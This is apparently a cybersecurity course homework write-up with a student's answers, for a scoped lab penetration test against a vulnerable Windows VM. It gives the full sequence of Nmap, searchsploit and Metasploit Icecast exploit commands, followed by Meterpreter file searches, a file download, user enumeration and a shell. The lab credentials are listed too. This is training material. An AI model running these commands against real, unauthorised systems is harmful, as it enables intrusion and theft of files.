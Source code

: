 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > `Answer: \nmap -sV 192.168.0.20`

      <img src="Images/Capture1.PNG"/>

      <img src="Images/Capture2.PNG"/>
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > `Answer: searchsploit icecast` 

        <img src="Images/Capture3.PNG"/>

        <img src="Images/Capture11.PNG"/>


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > `Answer: msfconsole`

     <img src="Images/Capture4.PNG"/>
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > `Answer: search icecast`

     <img src="Images/Capture5.PNG"/>
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > `Answer: use 0`

     <img src="Images/Capture6.PNG"/>
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > `Answer: set RHOST 192.168.0.20`

     <img src="Images/Capture7.PNG"/>
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > `Answer: run`

     <img src="Images/Capture8.PNG"/>
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > `Answer: search -f *secret*.txt`

     <img src="Images/Capture9.PNG"/>
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > `Answer: search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      >`Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt'

      
     <img src="Images/Capture12.PNG"/>
  

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  >`Answer: run post/windows/gather/enum_logged_on_users`
                                           
     
B. Open a Meterpreter shell. 
 
  > `Answer: shell`

  <img src="Images/Capture13.PNG"/>
 
C. Run the command that displays the target's computer system information:

   > `Answer: exit to meterpreter and run: sysinfo` 

   <img src="Images/Capture10.PNG"/>

<br>
<br>

## A full report can be found here: [GoodSecurity Penetration Test Report](./GoodSecurity_Penetration_Test_Report.pdf)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
